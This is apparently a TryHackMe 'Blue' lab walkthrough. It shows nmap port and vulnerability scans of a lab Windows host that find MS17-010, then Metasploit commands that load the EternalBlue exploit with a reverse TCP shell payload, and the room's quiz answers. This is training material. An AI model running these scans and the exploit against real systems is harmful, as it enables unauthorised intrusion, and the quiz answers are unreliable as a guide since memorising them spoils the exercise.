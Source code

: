 # Blue TryHackme Walkthrough

Room URL: https://tryhackme.com/room/blue

# Recon

**Questions:**

**Q1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)**

Let's first do a simple scan to see open ports 

`sudo nmap -sS -vv 10.10.194.244 > scan.txt `

scan.txt result:

``` 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-01 03:22 EDT
Initiating Ping Scan at 03:22
Scanning 10.10.194.244 [4 ports]
Completed Ping Scan at 03:22, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:22
Completed Parallel DNS resolution of 1 host. at 03:22, 0.23s elapsed
Initiating SYN Stealth Scan at 03:22
Scanning 10.10.194.244 [1000 ports]
Discovered open port 139/tcp on 10.10.194.244
Discovered open port 445/tcp on 10.10.194.244
Discovered open port 3389/tcp on 10.10.194.244
Discovered open port 135/tcp on 10.10.194.244
Discovered open port 49153/tcp on 10.10.194.244
Discovered open port 49152/tcp on 10.10.194.244
Discovered open port 49154/tcp on 10.10.194.244
Discovered open port 49160/tcp on 10.10.194.244
Discovered open port 49158/tcp on 10.10.194.244
Completed SYN Stealth Scan at 03:23, 12.95s elapsed (1000 total ports)
Nmap scan report for 10.10.194.244
Host is up, received echo-reply ttl 127 (0.22s latency).
Scanned at 2025-04-01 03:23:00 EDT for 12s
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49158/tcp open  unknown       syn-ack ttl 127
49160/tcp open  unknown       syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
           Raw packets sent: 1301 (57.220KB) | Rcvd: 1017 (40.704KB)

```

Now that let's do vuln scan on a specific open port

`sudo nmap -p 445,135,139 -sV -vv --script vuln 10.10.194.244 > vuln_scan.txt`

vuln_scan.txt result:

``` 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-01 03:43 EDT
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 03:43
Completed NSE at 03:43, 10.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 03:43
Completed NSE at 03:43, 0.00s elapsed
Initiating Ping Scan at 03:43
Scanning 10.10.194.244 [4 ports]
Completed Ping Scan at 03:43, 0.16s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:43
Completed Parallel DNS resolution of 1 host. at 03:43, 0.17s elapsed
Initiating SYN Stealth Scan at 03:43
Scanning 10.10.194.244 [3 ports]
Discovered open port 445/tcp on 10.10.194.244
Discovered open port 135/tcp on 10.10.194.244
Discovered open port 139/tcp on 10.10.194.244
Completed SYN Stealth Scan at 03:43, 0.17s elapsed (3 total ports)
Initiating Service scan at 03:43
Scanning 3 services on 10.10.194.244
Completed Service scan at 03:43, 6.53s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.194.244.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 03:43
Completed NSE at 03:44, 5.80s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 03:44
Completed NSE at 03:44, 0.01s elapsed
Nmap scan report for 10.10.194.244
Host is up, received echo-reply ttl 127 (0.13s latency).
Scanned at 2025-04-01 03:43:47 EDT for 13s

PORT    STATE SERVICE      REASON          VERSION
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 03:44
Completed NSE at 03:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 03:44
Completed NSE at 03:44, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)


```

Ans: ***No answer needed***

**Q2.How many ports are open with a port number under 1000?**

Ans: ***3***

**Q3.What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**

Ans: ***ms17-010***


# Gain Access

**Questions:**

**Q1.Start Metasploit**

`msfconsole`

Ans: ***No answer needed***

**Q2.Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

`search ms17-010`

`use exploit/windows/smb/ms17_010_eternalblue`

`set rhosts <target ip>`

`set lhost <your machine ip>`

`set payload windows/x64/shell/reverse_tcp`

`run`

![show-options-eternalblue](https://github.com/user-attachments/assets/1a526898-d601-4b3b-8ea5-59b0ce1d4837)

Ans: ***No answer needed***
